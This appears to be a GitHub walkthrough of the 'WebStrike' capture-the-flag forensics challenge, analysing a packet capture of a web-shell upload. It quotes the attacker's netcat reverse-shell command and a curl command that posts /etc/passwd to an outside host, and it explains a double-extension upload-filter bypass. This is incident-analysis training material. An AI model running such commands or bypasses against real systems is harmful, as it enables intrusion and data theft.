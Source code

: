 # ctf2   challenge name WebStrike 
<br> before starting with challenge we have to do something 
<br>**first** one open statistics then protocol hierarchy to see which protocols used in the packets
<br>we will see tcp - http 
![2](https://github.com/0xT7N/ctf2/assets/75274517/4a2de490-dff2-4d6e-ba6d-1849c8210d1a)
<br>**second** open statistics then conversation to see which ips connect with each other
![3](https://github.com/0xT7N/ctf2/assets/75274517/4d23699c-0ec3-43cc-a2f6-bea59c375d40)
<br> we now ready for the challenge 
# Q1 Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?
<br> using ipgeoloction 
<br> ans **Tianjin**
![4](https://github.com/0xT7N/ctf2/assets/75274517/02cdf53c-73c5-4d43-948f-1f9bee77f752)
# Q2 Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?
<br> using follow tcp stream we will get user agent for attacker
<br> **Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0**
![6](https://github.com/0xT7N/ctf2/assets/75274517/90433587-96ed-49be-ab06-7c4c6664a480)
# Q3 We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?
<br> first we will follow the http request ant we find a post request in packet number **53** and **63**
<br> in this challenge the attacker uploaded two web shell first one called **image.php** and the second called **image.jpg.php**
<br> and in packet **53** **image.php** web shell he get invalid formate so its not worked (in this cause we can be guess the web site in this location of upload it only accepte a photos with ext jpg png or something like that so the attacker change the extention with image.jpg.php then its accept in packet **63**
<br> we will notice this command in php file **nc 117.11.88.124 8080** that mean the attacke will open a connection in port **8080** using **netcat** tool (netcat tool the connection not encrypted like socat)
![14](https://github.com/0xT7N/ctf2/assets/75274517/96d35c93-7dbf-48e3-90ed-6063b6cb9d96)
![13](https://github.com/0xT7N/ctf2/assets/75274517/32b094d6-fa99-4527-8926-e831925170ea)
# Q4 Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store the uploaded files?
<br> with following http stream we will see in packet 138 we will the web shell in path **/reviews/uploads/image.jpg.php**
<br> after the attacker access this path he gain access to the machine and can write a commands on a machine victim 
![15](https://github.com/0xT7N/ctf2/assets/75274517/3e668018-fad3-4044-a099-da53c360a1ac)
 # Q5 Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell?
 <br> to know which port the attacker used for web shell we can detect it form the command wrote in php file **nc 117.11.88.124 8080** so the port is **8080**
 # Q6 Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?
 <br> to know which file was the attacker trying to exfiltrate we have to go to packet **140** that includs all commands the attacker wrote in a victime machine  
 <br> we will see this command **curl -X POST -d /etc/passwd http://117.11.88.124:443/** **curl is used in command lines or scripts to transfer data**
 <br> then the file is **passwd** It contains a list of the system's accounts 
 ![11](https://github.com/0xT7N/ctf2/assets/75274517/161bf12d-dbd6-4e50-a8ca-ba1711c17c62)


